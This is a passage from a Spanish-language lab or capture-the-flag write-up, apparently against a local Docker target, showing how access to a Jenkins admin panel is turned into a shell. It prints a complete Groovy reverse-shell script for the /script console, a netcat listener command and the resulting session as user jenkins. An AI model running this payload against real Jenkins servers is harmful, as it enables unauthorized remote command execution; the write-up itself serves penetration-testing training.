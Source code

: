 ![alt text](../../images/jenkinss.png)

Hemos obtenido acceso al panel de administración de `Jenkins`.

Vamos a intentar obtener una `reverse shell` a través de `Jenkins`. Para ello vamos a la `consola` de scripts en la ruta `/script`, donde podemos ejecutar código `Groovy` arbitrario.

Investigando por internet encontramos el siguiente `script` para obtener una `reverse shell`.

```
Thread.start {
String host="TU IP";
int port=TU PUERTO;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

Antes de ejecutar el script, ponemos un `listener` en nuestra máquina atacante.

```bash
sudo nc -nlvp 4444
```

Ahora sí, ejecutamos el script.

Info:
```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 51044
whoami
jenkins
```

Hemos recibido la `reverse shell` como el usuario `jenkins`.
